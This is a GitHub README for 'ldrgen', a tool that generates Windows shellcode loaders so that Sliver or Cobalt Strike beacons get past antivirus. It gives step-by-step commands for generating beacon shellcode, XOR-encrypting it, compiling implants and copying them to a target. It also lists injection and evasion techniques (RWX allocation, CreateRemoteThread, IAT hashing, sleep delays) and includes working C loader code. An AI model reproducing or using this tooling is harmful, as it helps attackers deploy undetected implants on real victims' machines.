# ldrgen

ldrgen is a golang cli tool for rapid generation of shellcode loaders using pre-defined templates.

## Table of Contents
- [ldrgen](#ldrgen)
  - [Table of Contents](#table-of-contents)
  - [Why?](#why)
  - [Usage](#usage)
  - [Example (Calc Shellcode)](#example-calc-shellcode)
  - [Example (Sliver Beacon)](#example-sliver-beacon)
    - [Sliver Shellcode Generation](#sliver-shellcode-generation)
    - [Loader Generation](#loader-generation)
    - [Compilation](#compilation)
    - [Callback](#callback)
  
  - [Example (Cobalt Strike Beacon)](#example-cobalt-strike-beacon)
    - [Shellcode Generation](#shellcode-generation)
    - [Loader Generation](#loader-generation-1)
    - [Compilation](#compilation-1)
    - [Callback](#callback-1)
  - [Customization](#customization)
    - [Loader Tokens](#loader-tokens)
    - [New Loader Tokens](#new-loader-tokens)
    - [Globals](#globals)
    - [Loader Configuration Template](#loader-configuration-template)
  

## Why?
When you want to drop your beacon to disk but AV keeps nuking you, and you need some templates to generate your own loaders.

## Usage 
```bash
git clone https://github.com/gatariee/ldrgen
cd ./ldrgen
go build -o ldr .
./ldr --help
```

## Usage with Encrypted Shellcode
If you intend to use encrypted payload, `ldrgen` can perform XOR encryption of the binfile for you by specifying the `-enc` and passing in a key to the `-args` flag when running the tool. 

This operation creates a temporary file "shellcode.bin.enc" in your current working directory. Specify `--cleanup` to delete this file afterwards.

Make sure to specify a loader token that supports encryption, some are: `inline_xor`, `createthread_xor`, `createthread_xor_sleep`.

## Example (Calc Shellcode)
```bash
./ldr -bin ./dev/calc_shellcode/calc.bin -out ./output -ldr CreateThread_Xor -enc xor -args "key=secretKey123" 
cd output && make x64
```

## Example (Sliver Beacon)

### Shellcode Generation
```bash
sliver > generate beacon --http <listener_ip> --format shellcode
```


### Loader Generation
```bash
./ldr -bin QUALIFIED_HONESTY.bin -out ./output -ldr CreateThread_Xor_Sleep -enc xor -args "key=supersecretkey1234, sleep=5" --cleanup
```

- binfile -> **QUALIFIED_HONESTY.BIN**
- output to -> **./output**
- use technique -> **CreateThread_Xor_Sleep**
- with encryption: **xor**
- with args:
    - key: **supersecretkey1234**
    - sleep: **5**
- delete tempfiles after compilation: **true**

### Compilation
- compile for x64 windows, alternatively compile for x86 with `make x86` (make sure your shellcode arch is the same as the loader arch)
```bash
cd output && make x64
```





- Copy `implant_x64.exe` to your target, see: [here](https://gitbook.seguranca-informatica.pt/cheat-sheet-1/stuff/file-transfer).

> If you're worried about detections, run your implant through AV before deploying it to your target. (avoid VT if you care about getting sigged, but I'll use it cos I'm lazy.)


*https://www.virustotal.com/gui/file/a88b7bee6e5dab73f158093d9f4ec9e556bd6984689efac44bafe3f600020b66?nocache=1*

This should be fine for Windows Defender.



### Callback



## Example (Cobalt Strike Beacon)
This is pretty much the same as the Sliver example. Though, you might need more evasive techniques as Cobalt Strike is more sigged.

### Shellcode Generation
- Payloads -> Stageless Payload Generator -> Output: Raw -> Generate



### Loader Generation
```bash
./ldr -bin payload_x64.bin -out ./output -ldr CreateThread_Iat_Xor_Sleep -enc xor -args "key=asdasdiasdasidasdasd, sleep=10" --cleanup
```


### Compilation
```bash
cd output && make x64
```


### Callback


remove the print statements from source if you care, but in cases where you _should_ care, you should probably be handwriting your loaders.
## Customization

### Loader Tokens
Loader tokens are passed in to the tool to indicate which technique to use for loading the shellcode:

These are defined in [config.yaml](./templates/config.yaml), this is also where you can define new tokens- see [New Tokens](#new-loader-tokens).
- [Inline.c](./templates/Source/Inline.c)
    - token identifier: `inline`
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, execute inline with `( (void ( * )())exec )();`
- [Inline_Xor.c](./templates/Source/Inline_Xor.c)
    - token identifier: `inline_xor`
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, encrypt shellcode via [Xor.c](./templates/Source/Xor.c), execute inline with `( (void ( * )())exec )();`
- [CreateRemoteThread.c](./templates/Source/CreateRemoteThread.c)
    - token identifier: `createremotethread`
    - `OpenProcess`, `VirtualAllocEx` with PAGE_EXECUTE_READWRITE, `WriteProcessMemory` and `CreateRemoteThread` to execute shellcode
- [CreateRemoteThreadRX.c](./templates/Source/CreateRemoteThreadRX.c)
    - token identifier: `createremotethreadrx`
    - `OpenProcess`, `VirtualAllocEx` with PAGE_EXECUTE_READ, `WriteProcessMemory`, `VirtualProtectEx` with PAGE_EXECUTE_READ and `CreateRemoteThread` to execute shellcode
- [CreateThread.c](./templates/Source/CreateThread.c)
    - token identifier: `createthread`
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, `CreateThread` to execute shellcode, `WaitForSingleObject` to wait for thread to exit.

- [CreateThread_Xor.c](./templates/Source/CreateThread_Xor.c)
    - token identifier: `createthread_xor`
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, decrypt shellcode via [Xor.c](./templates/Source/Xor.c), `CreateThread` to execute shellcode, `WaitForSingleObject` to wait for thread to exit.
  
- [CreateThread_Xor_Sleep.c](./templates/Source/CreateThread_Xor_Sleep.c)
    - token identifier: `createthread_xor_sleep`
    - `VirtualAlloc` to allocate RWX memory, sleep, `memcpy` shellcode, decrypt shellcode via [Xor.c](./templates/Source/Xor.c), `Sleep(10)`, `CreateThread` to execute shellcode, `WaitForSingleObject` to wait for thread to exit.
- [CreateThread_Iat_Xor](./templates/Source/CreateThread_IAT_Xor.c)
    - token identifier: `createthread_iat_xor`
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, decrypt shellcode via [Xor.c](./templates/Source/Xor.c), `CreateThread` to execute shellcode, `WaitForSingleObject` to wait for thread to exit.
    - This technique uses the IAT to resolve `LoadLibraryA` and `GetProcAddress` to resolve WinAPI functions.
    - Refer to [hash.py](./templates/Scripts/hash.py) for the hash function used to resolve the functions.

- [CreateThread_Iat_Xor_Sleep](./templates/Source/CreateThread_IAT_Xor_Sleep.c)
    - token identifier: `createthread_iat_xor_sleep`
    - `VirtualAlloc` to allocate RWX memory, sleep,  `Sleep( ${SLEEP} )`, `memcpy` shellcode, decrypt shellcode via [Xor.c](./templates/Source/Xor.c), `CreateThread` to execute shellcode, `WaitForSingleObject` to wait for thread to exit.
    - This technique uses the IAT to resolve `LoadLibraryA` and `GetProcAddress` to resolve WinAPI functions.
    - Refer to [hash.py](./templates/Scripts/hash.py) for the hash function used to resolve the functions.
    - *I use this for most AV boxes, this shld be sufficient for windef

In order to edit existing tokens, you can simply modify the source code in the [templates](./templates) directory.

For example, in order to add a `Sleep( 1000 )` before decrypting & executing the shellcode in the `CreateThread_Xor` technique, you can modify the main function in [CreateThread_Xor.c](./templates/Source/CreateThread_Xor.c) file:
```c
#include <windows.h>
int main( int argc, char* argv[] ) {
	LPVOID mem = VirtualAlloc( NULL, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE );
	if (mem == NULL) {
		return 1;
	}

        /* Sleep for 10 seconds */
        Sleep( 1000 );
        /* Resume execution */

	xorShellcode( shellcode, shellcode_size, "${KEY}" );
	memcpy( mem, shellcode, shellcode_size );
	HANDLE hThread = CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)mem, NULL, 0, NULL );

	if (hThread == NULL) {
		VirtualFree( mem, 0, MEM_RELEASE );
		return 1;
	}

	WaitForSingleObject( hThread, INFINITE );
	CloseHandle( hThread );
	VirtualFree( mem, 0, MEM_RELEASE );
	return 0;
}
```
### New Loader Tokens
In order to add new loaders, you can directly commit source files to the [templates](./templates) directory, and write a new token in [config.yaml](./templates/config.yaml).

### Globals
These are globally accessibles in loader templates, and will be replaced with the appropriate values when generating the loader source code.

- [Shellcode.h](./templates/Include/Shellcode.h)
    - `extern unsigned char shellcode[];`
    - `extern size_t shellcode_size;`

- [Xor.c](./templates/Include/Xor.h)
    - `void xorShellcode(unsigned char* shellcode, size_t shellcodeSize, const char* key)`

You can use these in your own loader templates, for example:
```c
#include "Shellcode.h"
/*
Externally defined shellcode variables:

{
	unsigned char shellcode[];
	unsigned int shellcode_size;
}

*/

#include "Xor.h"
/*
Externally defined xorShellcode function:

{
	void xorShellcode(unsigned char *shellcode, unsigned int shellcode_size, unsigned char key);
}

*/

#include <stdio.h>
int main() {
    /* This is the size of the shellcode in bytes */
    printf("Shellcode size: %d\n", shellcode_size);

    /* shellcode[] = { 0x00, 0x01, 0x02, ... } */
    printf("First 10 bytes of shellcode: ");
    for (int i = 0; i < 10; ++i) {
        printf("%02X ", shellcode[i]);
    }
    printf("\n");


    /* If shellcode is encrypted, you can hardcode a key */
    xorShellcode(shellcode, shellcode_size, "HardcodedKey1234");

    /* Or, you can supply a key via the template */
    xorShellcode(shellcode, shellcode_size, "${KEY}");

    /* Now, you can execute the shellcode */
    ...
}
```

### Loader Configuration Template
Now that you have the loader source code ready, you can add a new token to [config.yaml](./templates/config.yaml) to use it from the cli.

Each loader token must follow this structure:
```yaml
token: "loader_token" # required
key_required: false # optional: default false
enc_type: "xor" # optional: default ""
files:
    - sourcePath: "/path/to/loader.c" # required
      outputPath: "Main.c" # best not to change this

    - sourcePath: "/path/to/any/other/source.c" # optional
      outputPath: "Other.c" # optional

    # Feel free to not include the `makefile` if you have your own compilation process

    - sourcePath: "makefile"
      outputPath: "makefile"
```

If you have substitutions in your loader source code (e.g key for XOR), you can add them to the `substitutions` section:
```yaml
token: "loader_token" # required
key_required: false # optional: default false
enc_type: "xor" # optional: default ""
files:
    - sourcePath: "/path/to/loader.c" # required
      outputPath: "Main.c" # best not to change this

      # Let's replace the placeholder ${KEY} in `loader.c` with a user supplied argument `key`
      substitutions:
        key: "${KEY}"

        # If we have more things to substitute, e.g ${PID}- we can keep adding on.
        pid: "${PID}"

    - sourcePath: "/path/to/any/other/source.c" # optional
      outputPath: "Other.c" # optional

    # Since we're doing XOR encryption, we need to include the relevant source code

    - sourcePath: "Source/Xor.c"
      outputPath: "Xor.c"

    - sourcepath: "Include/Xor.h"
      outputPath: "Xor.h"

    # Feel free to not include the `makefile` if you have your own compilation process

    - sourcePath: "makefile"
      outputPath: "makefile"
```
